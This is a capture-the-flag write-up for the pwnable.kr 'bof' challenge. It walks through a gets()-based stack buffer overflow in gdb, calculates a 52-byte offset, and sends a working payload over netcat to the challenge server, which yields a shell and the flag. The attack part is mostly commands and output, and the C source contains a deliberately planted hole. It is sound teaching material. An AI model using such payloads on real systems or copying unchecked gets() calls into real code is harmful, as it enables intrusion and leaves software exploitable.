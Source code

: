 # 3 - bof
The second challenge hosted on pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution
Ok, lets start by downloading the provided binary and source code, and taking a look at bof.c.

```
apt-get install libc6-i386
```

Downloading bof.c...
```
wget http://pwnable.kr/bin/bof.c
```

Looking at the source code...
```
$ cat bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
We can see that main starts a function, and passes 0xdeadbeef as parameter. this parameter is later compared to 0xcafebabe, and if we can enter this if statement we can get the flag.
So we need to try to change the content of the key variable in the function, so that the if test will resolve to true.
We get a nice hint in the gets function on how to do this :)

Ok, lets compile an executable and get to debugging.
*Note: if you are on a 64bit system you might need to download and install the following package in order to be able to compile it to 32-bit (which makes the adresses a litle bit more bareable)*
```
$ sudo apt-get install g++-multilib
```
Compile it;
```
$ gcc -m32 bof.c -o bof
```
Ok, lets get to debugging! :)

```
$ gdb bof
```
Looking at main we can see the function defined 'func'. Lets inspect it.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804856a <+0>:	lea    0x4(%esp),%ecx
   0x0804856e <+4>:	and    $0xfffffff0,%esp
   0x08048571 <+7>:	pushl  -0x4(%ecx)
   0x08048574 <+10>:	push   %ebp
   0x08048575 <+11>:	mov    %esp,%ebp
   0x08048577 <+13>:	push   %ecx
   0x08048578 <+14>:	sub    $0x4,%esp
   0x0804857b <+17>:	sub    $0xc,%esp
   0x0804857e <+20>:	push   $0xdeadbeef
   0x08048583 <+25>:	call   0x80484fb <func>
   0x08048588 <+30>:	add    $0x10,%esp
   0x0804858b <+33>:	mov    $0x0,%eax
   0x08048590 <+38>:	mov    -0x4(%ebp),%ecx
   0x08048593 <+41>:	leave  
   0x08048594 <+42>:	lea    -0x4(%ecx),%esp
   0x08048597 <+45>:	ret    
End of assembler dump.

(gdb) disas func
Dump of assembler code for function func:
   0x080484fb <+0>:	push   %ebp
   0x080484fc <+1>:	mov    %esp,%ebp
   0x080484fe <+3>:	sub    $0x38,%esp
   0x08048501 <+6>:	mov    %gs:0x14,%eax
   0x08048507 <+12>:	mov    %eax,-0xc(%ebp)
   0x0804850a <+15>:	xor    %eax,%eax
   0x0804850c <+17>:	sub    $0xc,%esp
   0x0804850f <+20>:	push   $0x8048620
   0x08048514 <+25>:	call   0x8048390 <printf@plt>
   0x08048519 <+30>:	add    $0x10,%esp
   0x0804851c <+33>:	sub    $0xc,%esp
   0x0804851f <+36>:	lea    -0x2c(%ebp),%eax
   0x08048522 <+39>:	push   %eax
   0x08048523 <+40>:	call   0x80483a0 <gets@plt>
   0x08048528 <+45>:	add    $0x10,%esp
=> 0x0804852b <+48>:	cmpl   $0xcafebabe,0x8(%ebp)
   0x08048532 <+55>:	jne    0x8048546 <func+75>
   0x08048534 <+57>:	sub    $0xc,%esp
   0x08048537 <+60>:	push   $0x804862f
   0x0804853c <+65>:	call   0x80483d0 <system@plt>
   0x08048541 <+70>:	add    $0x10,%esp
   0x08048544 <+73>:	jmp    0x8048556 <func+91>
   0x08048546 <+75>:	sub    $0xc,%esp
   0x08048549 <+78>:	push   $0x8048637
   0x0804854e <+83>:	call   0x80483c0 <puts@plt>
   0x08048553 <+88>:	add    $0x10,%esp
   0x08048556 <+91>:	nop
   0x08048557 <+92>:	mov    -0xc(%ebp),%eax
   0x0804855a <+95>:	xor    %gs:0x14,%eax
   0x08048561 <+102>:	je     0x8048568 <func+109>
   0x08048563 <+104>:	call   0x80483b0 <__stack_chk_fail@plt>
   0x08048568 <+109>:	leave  
   0x08048569 <+110>:	ret    
End of assembler dump.
```

Great, so we find our comparison, (=>).
We can add a breakpoint by giving it the adress.
```
(gdb) break *0x0804852b
```

Lets try to run it, and see if we can find the local key variable in the memory. I know that A's will appear as \x41 in memory, so I will input a bunch of these to the input to see if I can find them.
```
(gdb) run
Starting program: bo
overflow me : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 1, 0x0804852b in func ()
(gdb)
```
Ok, lets inspect the memory. We can use xw to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
0xffffcd40:	0x00000000	0xffffcde4	0xf7fb7000	0x41414141
0xffffcd50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd60:	0x41414141	0x41414141	0x41414141	0x39ea8200
0xffffcd70:	0x00000002	0x00000003	0xffffcd98	0x08048588
0xffffcd80:	0xdeadbeef	0xffffce44	0xffffce50	0x080485c1
```
Ok, so we can see where our array of A's start. We can also see that 0xdeadbeef appears exactly 13 words later. Luckily for us, we can remember from bof.c that the variable that our input is assigned to is only allocated 32 bytes, but our input is never checked to be less than 33 bytes. Therefore we can overflow this, and try to change the content of the local key variable, which we now know where is stored. So 13 words * 4 bytes in each word gives us a total of 52 bytes we need to write. Then we can append what we know to be the real password '\xca\xfe\xba\xbe'. However the system is most likely little endian, so we must remember to reverse it,
'\xbe\xba\xfe\xca'.
Thus, our input will be: 52*'A'+'\xbe\xba\xfe\xca'.
We can try  to feed this into our program and verify that we have overwritten the key.
We can give this as stdin to our gdb with python.
```
(gdb) run <<< $(python -c "print'A'*52+'\xbe\xba\xfe\xca'")
Starting program: bo <<< $(python -c "print'A'*52+'\xbe\xba\xfe\xca'")

Breakpoint 1, 0x0804852b in func ()
(gdb) x/20xw $esp
0xffffcd40:	0x00000000	0xffffcde4	0xf7fb7000	0x41414141
0xffffcd50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd60:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd70:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd80:	0xcafebabe	0xffffce00	0xffffce4c	0x080485c1
```

## Awesome :)

Lets try and feed it to the ctf server.

```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
